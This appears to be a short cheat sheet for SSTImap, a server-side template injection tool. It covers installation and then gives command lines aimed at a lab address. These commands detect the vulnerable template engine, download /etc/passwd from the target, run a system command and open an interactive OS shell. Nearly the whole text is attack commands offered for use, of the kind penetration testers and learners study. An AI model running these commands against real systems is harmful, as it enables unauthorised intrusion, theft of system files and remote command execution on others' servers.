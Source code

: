 # [SSTImap](https://github.com/vladko312/SSTImap)
***
### Installation
```shell
$ git clone https://github.com/vladko312/SSTImap
$ cd SSTImap
$ pip3 install -r requirements.txt
$ python3 sstimap.py
```

### Automatic Identification of any SSTI vulnerability and template engine used:
```
$ python3 sstimap.py -u http://172.17.0.2/index.php?name=1337
```
### Download a remote file to our machine
```
$ python3 sstimap.py -u http://172.17.0.2/index.php?name=1337 -D '/etc/passwd' './password'
```

### Run a system command
```
$ python3 sstimap.py -u http://172.17.0.2/index.php?name=1337 -S whoami
```

### Interactive shell
```
$ python3 sstimap.py -u http://172.17.0.2/index.php?name=1337 --os-shell
```

### Useful flags
* -u : Specify URL
* -D : Download remote file to out local machine
* -S : Execute system command
* --os-shell : Obtain interactive shell
